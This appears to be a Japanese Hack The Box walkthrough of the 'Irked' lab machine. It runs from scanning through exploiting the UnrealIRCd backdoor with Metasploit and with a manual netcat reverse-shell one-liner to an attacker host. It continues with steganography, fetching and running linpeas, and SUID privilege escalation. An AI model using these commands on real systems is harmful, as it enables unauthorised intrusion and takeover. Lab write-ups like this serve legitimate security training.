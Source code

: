 # はじめに
HackTheBoxの攻略などを自分用にまとめたものです。
主に記録用として記しています。
<img src="http://www.hackthebox.eu/badge/image/185549" alt="Hack The Box">
GitHub(ペネトレーションテスト用チートシート):
https://github.com/yukitsukai47/PenetrationTesting_cheatsheet
Twitter:@yukitsukai1731

# Irked
![コメント 2020-08-22 104107.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/af900ece-da87-e69f-d1c8-f110c56e7328.png)

HackTheBox公式より
Irked is a pretty simple and straight-forward box which requires basic enumeration skills. It shows the need to scan all ports on machines and to investigate any out of the place binaries found while enumerating a system.

Irked は、基本的な列挙のスキルを必要とする、非常にシンプルでわかりやすいボックスです。マシン上のすべてのポートをスキャンして、システムを列挙している間に見つかった場所から出てきたバイナリを調査する必要があることを示しています。

# スキャン
Irked(10.10.10.117)に対して、スキャンを行います。
まずnmapでスキャンを開始します。

## nmap 

```
nmap -sC -sV -p- -oN nmap/full 10.10.10.117 
```

- -sC...デフォルトスクリプトでスキャン
- -sV...バージョン検出
- -p-...全ポートスキャン
- -oN...通常出力

```
# Nmap 7.80 scan initiated Thu Aug 20 10:30:34 2020 as: nmap -sC -sV -oN nmap/full -p- 10.10.10.117                                                                                                                                        
Nmap scan report for 10.10.10.117                                                                                                                                                                                                          
Host is up (0.26s latency).                                                                                                                                                                                                                
Not shown: 65422 closed ports, 106 filtered ports                                                                                                                                                                                          
PORT      STATE SERVICE VERSION                                                                                                                                                                                                            
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)                                                                                                                                                                       
| ssh-hostkey:                                                                                                                                                                                                                             
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)                                                                                                                                                                             
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)                                                                                                                                                                             
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)                                                                                                                                                                            
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)                                                                                                                                                                          
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))                                                                                                                                                                                     
|_http-server-header: Apache/2.4.10 (Debian)                                                                                                                                                                                               
|_http-title: Site doesn't have a title (text/html).                                                                                                                                                                                       
111/tcp   open  rpcbind 2-4 (RPC #100000)                                                                                                                                                                                                  
| rpcinfo:                                                                                                                                                                                                                                 
|   program version    port/proto  service                                                                                                                                                                                                 
|   100000  2,3,4        111/tcp   rpcbind                                                                                                                                                                                                 
|   100000  2,3,4        111/udp   rpcbind                                                                                                                                                                                                 
|   100000  3,4          111/tcp6  rpcbind                                                                                                                                                                                                 
|   100000  3,4          111/udp6  rpcbind                                                                                                                                                                                                 
|   100024  1          35283/tcp6  status                                                                                                                                                                                                  
|   100024  1          43756/udp   status                                                                                                                                                                                                  
|   100024  1          57539/tcp   status
|_  100024  1          58901/udp6  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
57539/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 20 11:12:01 2020 -- 1 IP address (1 host up) scanned in 2486.92 seconds
```

この結果から80番ポートが空いていることが分かります。
ブラウザからアクセスしてみると以下のような画像が表示されます。
![コメント 2020-08-20 233320.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/dcf927d6-388b-c7ab-89e9-217f0bd1ff37.png)

# gobuster
手がかりを探すために、gobusterを使いますがめぼしいものは見つかりませんでした。

```
gobuster dir -u http://10.10.10.117 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o initial
```

- dir...dirモード
- -u...URL指定
- -w...ワードリスト指定
- -o...ファイル出力

```
/manual (Status: 301)
/server-status (Status: 403)
```

# UnrealIRCd
6697,8067,65534番ポートではircのデーモンであるUnrealIRCdが稼働しています。
UnrealIRCdに繋ぐために、今回はhexchatを使用します。

```
sudo apt install hexchat
```

hexchatを起動し、下記の画像のようにネットワーク情報を設定します。
![スクリーンショット 2020-08-25 20.15.29.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/f14b93d4-0f98-b6e4-f8f6-03a9b876301d.png)

設定が完了後、接続をするとUnrealIRCdのバージョンが3.2.8.1であることが分かります。
![コメント 2020-08-21 141613.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/ea5aaa9a-ba13-86a7-fe28-d02d99ccf3c9.png)

searchsploitにてUnrealIRCdについて検索すると、metasploitで利用できるexploitを見つけることができます。
![コメント 2020-08-21 141700.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/18e0dbb5-4d8b-337a-3fe5-6e85f35a9188.png)

また、Googleで検索してみたところバックドアの発火のさせ方が記載されていました。具体的には「AB」で始まるサーバに送信されたコマンドが直接system()に渡されるというものです。
![スクリーンショット 2020-08-25 20.21.20.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/2bd7491d-fe67-e226-ce7a-74b186bae423.png)

今回はmetasploitと手動の両方で、侵入を行いたいと思います。

# 侵入
今回はmetasploitと手動の両方で、侵入を行いたいと思います。
## metasploit
まずはmetasploitを使用して、侵入を行います。
searchコマンドを用いて使用するモジュールを検索します。
![コメント 2020-08-21 142028.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/59672ec7-5eaa-c784-4eaa-ef24ddee3eae.png)
次にexploitの設定を行います。

```
use exploit/unix/irc/unireal_ircd_3281_backdoor
set RHOTS 10.10.10.117
set RPORT 6697
set PAYLOAD cmd/unix/reverse
set LHOST <attacker ip>
set LPORT 1337
exploit
```

![スクリーンショット 2020-08-25 20.54.23.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/341456f6-e0db-490a-b55c-eb3f4d179bc3.png)

このままでは不便なシェルなので、新たにシェルを繋ぎなおします。
調べてみると、pythonが入っているようなのでpythonを使ってシェルを取得します。
![コメント 2020-08-21 143939.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/26595e3d-e7d1-83d8-38dd-74938d269754.png)
![コメント 2020-08-21 143957.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/9254eba5-a3e1-7e58-e436-dffc2076d724.png)

## 手動でのエクスプロイト
「AB」で始まるサーバに送信されたコマンドが直接system()に渡されるというものなので、今回それを利用します。
下記の画像のようにコマンドをnetcatを通じて送信することでシェルを取得することができました。

```
echo "AB; bash -c 'bash -i >& /dev/tcp/<attacker ip><attacker port> 0>&1'" | nc 10.10.10.117 65534
```

![コメント 2020-08-21 191135.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/162531fb-d5d3-dfb5-eede-70e07c35c151.png)

## Lateral movement(横展開)
ircdのユーザは手に入れることができましたが、user.txtを開くことはできませんでした。
そこでuser.txtの所有者であるdjmardovというユーザでアクセスできるようにしたいと思います。
ls -laコマンドの結果、user.txtと並んで.backupというファイルが配置されていました。
内容を見てみると何かのパスワードのようです。
またstegというsteganographyを彷彿させるような記述があります。
![コメント 2020-08-21 144625.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/b0bb4518-70af-8cce-75f9-40924eaeb420.png)

今のところ、画像は取得できる画像は下記のものなので、これを取得してステガノグラフィーを検証します。
![コメント 2020-08-20 233320.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/304f9442-db62-8578-eaa0-f6b2daa98ca6.png)

```
wget http://10.10.10.117/irked.jpg
steghide extract -sf irked.jpg
```

先ほど見つけたパスフレードを入力するとpass.txtを取得することができます。
![コメント 2020-08-21 152458.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/40781bbd-96c2-1e65-5827-6f3121c46535.png)
pass.txtに書かれていたパスワードをsshを介してdjmardovで使用すると、djmardovでログインすることができます。
![コメント 2020-08-21 152610.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/eabc13bb-e13a-5a79-7ba6-2ab5c4396560.png)

# Privileges Escalation(権限昇格)
次にroot.txtを取得するために権限昇格を行います。
権限昇格に使えるものを探すためにlinpeasを使用します。
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
pythonでサーバを立ててlinpeasを送る用意をします。

```
python3 -m http.server 9001
```

![コメント 2020-08-21 153227.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/72526ef8-4bdc-ee89-045b-4dbc15b3d0bb.png)
次に、wgetを使用してirkedマシン上で実行します。

```
wget http://10.10.10.14.7:9001/linpeas.sh
chmod 755 linpeas.sh
./linpeas.sh
```

![コメント 2020-08-21 153251.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/f9e8e929-97ea-4ac0-93c6-a95a2f01ec76.png)
ここではSUIDをチェックします。
Linuxでは、SUIDアクセス許可を持つファイルはより高い特権で実行することができます。root以外のユーザーとしてアクセスし、suidビットが有効なバイナリが見つかったとするとそれらのファイル・プログラム・コマンドはroot権限で実行することができます。
![コメント 2020-08-21 154000.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/d049e44c-7870-0ea9-f21c-29c997b91c4e.png)
中でも、/usr/bin/viewuserというものが気になるので実行してみます。
![コメント 2020-08-21 160106.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/adc6699c-6d02-ba3d-28df-aa2385510020.png)
実行すると/tmp/listusersが見つからないと表示されます。
![コメント 2020-08-21 160216.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/898a6179-361e-abc5-9256-6f92d788d967.png)
viewuserはroot権限で動作しているので、/tmp/listusersにコマンドを書き込んで実行することで、rootシェルを取得できないか試してみます。
![コメント 2020-08-21 160300.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/2e58bc1f-52b5-4700-58e1-5607cce42888.png)
![コメント 2020-08-21 160347.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/f8f67d64-0935-f100-e903-1f50fab49047.png)

root権限を取得することができました。
お疲れ様でした。
